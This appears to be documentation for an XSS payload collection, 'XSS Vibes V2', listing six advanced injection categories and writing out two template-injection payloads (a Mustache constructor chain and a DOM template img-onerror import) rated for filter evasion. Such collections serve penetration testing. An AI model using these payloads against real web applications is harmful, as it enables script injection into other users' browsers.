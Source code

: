 # 🔥 XSS Vibes V2 - Advanced XSS Categories Documentation

## 📋 Overview

This document describes the 6 new advanced XSS categories added to XSS Vibes V2. These categories contain god-tier and advanced-level payloads targeting modern web applications and frameworks.

**Total: 48 Advanced Payloads across 6 Categories**

---

## 🎯 Categories Overview

| Category | Payloads | Difficulty | Target |
|----------|----------|------------|---------|
| [Template Injection](#-1-template-injection) | 8 | **GOD TIER** | Template Engines, SSTI |
| [Event Handler Injection](#-2-event-handler-injection) | 8 | **ADVANCED** | Dynamic Events, DOM |
| [JavaScript URI Injection](#-3-javascript-uri-injection) | 8 | **ADVANCED** | Protocol Handlers, URLs |
| [innerHTML SVG Namespace](#-4-innerhtml-svg-namespace) | 8 | **GOD TIER** | SVG, Mixed Namespaces |
| [JavaScript Proto Pollution XSS](#-5-javascript-proto-pollution-xss) | 8 | **GOD TIER** | Prototype Pollution |
| [URL JS Context](#-6-url-js-context) | 8 | **ADVANCED** | Script Sources, JSONP |

---

## 🔥 1. Template Injection

**Category**: `template_injection`  
**Difficulty**: `god_tier_advanced`  
**Description**: Server-Side and Client-Side Template Injection leading to XSS

### 🎯 Target Contexts
- Mustache/Handlebars template engines
- AngularJS expressions
- Server-Side Template Injection (SSTI)
- DOM template rendering (client-side)

### 💀 Key Payloads

#### Mustache Constructor Chain
```javascript
{{constructor.constructor('alert(1)')()}}
```
- **Evasion Level**: 9/10
- **Bypasses**: template_filters, constructor_detection

#### DOM Template Import
```html
<template id="tpl"><img src=x onerror=alert(1)></template>
<script>
document.body.appendChild(document.importNode(document.querySelector('#tpl').content, true));
</script>
```
- **Evasion Level**: 8/10
- **Bypasses**: template_detection, dom_manipulation
